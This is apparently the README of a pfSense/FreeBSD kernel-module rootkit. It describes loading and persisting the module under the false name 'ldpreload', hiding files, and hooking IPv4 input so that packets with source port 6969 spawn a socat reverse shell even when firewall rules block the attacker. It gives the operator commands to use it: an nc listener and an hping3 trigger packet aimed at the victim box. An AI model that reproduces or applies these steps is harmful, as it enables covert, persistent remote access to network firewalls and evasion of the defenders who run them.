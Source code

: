 First off, I would like to give a massive thank you to my friend Sharad(mineo333) for helping 
create the functionality of forking a process and running kern_execve() in the child.  This is the
core of the entire rootkit and what allows for code execution upon the condition of a packet
with a certain source port being seen.  I could not have done this without his help.

Secondly, the functionality that hides file is completely 1 for 1 ripped from BlueDragonSecurity's(bluedragonsecurity) repo bds_freebsd.  Big thanks for making this. 

An important note, the current .ko files are only usable for pfSense 2.7.2 CE.
You to compile these yourself, you must do it within a pfSense box, NOT a compatable freeBSD kernel.
To be able to compile within pfSense you must follow the steps outlined in "extra/how_to_setup_pfsense_to_compile.txt".

The "extra" directory holds the C code and Makefile to create an LKM that will eternally just print's a face, normal input will still work on the terminal it jsut scrolls really fast, you can also just unload it to make it stop. To load it you must run
kldload /boot/modules/.evil/evil.ko

ldpreload/LD_PRELOAD is a false name used for the rootkit since this LKM does not exist within pfSense but appears normal.

This LKM/Rootkit has persistance, from ldpreload.sh, which is loaded via load_and_setup.sh.

To load the Rootkit you must clone this directroy, cd into it, chmod +x load_and_setup.sh, and run ./load_and_setup.sh.
You will be popped out into a ghost /Apekit-tooshit directory so run cd / after the script is done.

What does it do?
This Rootkit registers a custom hook to the top of the IPv4 head within pfSense and establishes reverse shells by forking the process that runs cat and running the reverse shell command in that fork with execve.
This is super duper mega awesome because even if firewall rules are made against the attacker IP, ports, anything.  The registered hook will still receive the packet and make a reverse shell.
We use socat to make the reverse shell since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.

To get a reverse shell!

Run "nc -lvnp 7000" on the attaking machine in a terminal.
In another terminal, send packets that will pop open a reverse shell with the command
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>", 80 is a good choice for dest port
Once you see the reverse shell connect, run control + c in the terminal that is sending the packets (you do not need to keep sending more traffic).
If the reverse shell doesn't connect after about 5 packets then run control + c in the terminal that is sending packets and re-run the command, packet filtering is finickey and sometimes you need to try a couple times.

